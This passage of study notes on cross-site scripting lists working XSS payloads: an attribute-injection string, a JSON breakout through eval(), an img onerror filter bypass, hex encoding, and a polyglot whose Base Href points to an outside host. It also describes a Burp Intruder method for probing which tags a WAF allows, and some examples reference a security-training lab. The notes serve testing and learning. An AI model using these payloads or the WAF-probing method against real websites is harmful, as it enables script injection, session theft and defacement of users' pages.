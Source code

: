 #### 2.6.2.2	-

`"onmouseover="alert(1)`

### 2.6.3	JSON BREAKOUT [28]

- This example only works if input is within eval()

- If http response is JSON format, break out by:
	- inserting \" to break out
	- add in arithmetic operator like "-" or "+"
	- run execution code, i.e. alert(1)
	- add in // double backslash to comment out rest of JSON

`\"-alert(1)}//`

`https://0a2700a504f96ce0c1f96a4700e900dc.web-security-academy.net/?search=\"-alert(1)//`

### 2.6.4	JAVASCRIPT REPLACE FUNCTION

- JavaScript replace() function only removes first instance of offending characters.

`<><img src=x onerror=alert(1)>`

### 2.6.5	EXHAUSTIVE XSS CAPABILITY CHECK

#### 2.6.5.1	[30]

- Use when WAF blocks many/most HTML tags and attributes. This technique will check if any vulnerable tags are available.
- Burp Intruder
- Send request with <§§>
- Use XSS Cheat Sheet [31] as payload. First, check allowed tags.
- Then, check allowed attributes.
- For example, `<body%20§§=1>`

### 2.6.6	HEX-ENCODING

#### 2.6.6.1	EXAMPLE

If '/' is blocked, try '\x2f'. Hex-encoding with '\x' delimiter.

## 2.7	XSS POLYGLOT

### 2.7.1	[25]

```
JavaScript://%250Aalert?.(1)//*'/*\'/*"/*\"/*`/*\`/*%26apos;)/*<!-></Title/</Style/</Script/</textArea/</iFrame/</noScript>\74k<K/contentEditable/autoFocus/OnFocus=/*${/*/;{/**/(alert)(1)}//><Base/Href=//X55.is\76->\
```

### 2.7.2	Praetorian destination

